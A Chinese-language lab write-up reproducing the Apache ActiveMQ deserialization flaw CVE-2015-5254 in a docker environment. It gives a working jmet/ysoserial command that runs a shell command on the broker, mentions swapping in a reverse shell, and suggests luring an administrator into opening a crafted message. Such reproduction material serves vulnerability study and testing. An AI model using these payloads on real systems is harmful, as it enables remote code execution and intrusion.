




# ActiveMQ 反序列化漏洞（CVE-2015-5254）

Apache ActiveMQ 是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持 Java 消息服务、集群、Spring Framework 等。

Apache ActiveMQ 5.13.0 之前 5.x 版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的 Java Message Service(JMS)ObjectMessage 对象利用该漏洞执行任意代码。

参考链接：

- https://www.blackhat.com/docs/us-16/materials/us-16-Kaiser-Pwning-Your-Java-Messaging-With-Deserialization-Vulnerabilities.pdf

## 漏洞环境

运行漏洞环境：

```
docker compose up -d
```

环境运行后，将监听 61616 和 8161 两个端口。其中 61616 是工作端口，消息在这个端口进行传递；8161 是 Web 管理页面端口。访问 `http://your-ip:8161` 即可看到 web 管理页面，不过这个漏洞理论上是不需要 web 的。

## 漏洞复现

漏洞利用过程如下：

1. 构造（可以使用 ysoserial）可执行命令的序列化对象
2. 作为一个消息，发送给目标 61616 端口
3. 访问 web 管理页面，读取消息，触发漏洞

使用 [jmet](https://github.com/matthiaskaiser/jmet) 进行漏洞利用。首先下载 jmet 的 jar 文件，并在同目录下创建一个 external 文件夹（否则可能会爆文件夹不存在的错误）。

jmet 原理是使用 ysoserial 生成 Payload 并发送（其 jar 内自带 ysoserial，无需再自己下载），所以我们需要在 ysoserial 是 gadget 中选择一个可以使用的，比如 ROME。

执行：

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616
```



此时会给目标 ActiveMQ 添加一个名为 event 的队列，我们可以通过 `http://your-ip:8161/admin/browse.jsp?JMSDestination=event` 看到这个队列中所有消息：



点击查看这条消息即可触发命令执行，此时进入容器 `docker compose exec activemq bash`，可见/tmp/success 已成功创建，说明漏洞利用成功：



将命令替换成弹 shell 语句再利用：



值得注意的是，通过 web 管理页面访问消息并触发漏洞这个过程需要管理员权限。在没有密码的情况下，我们可以诱导管理员访问我们的链接以触发，或者伪装成其他合法服务需要的消息，等待客户端访问的时候触发。
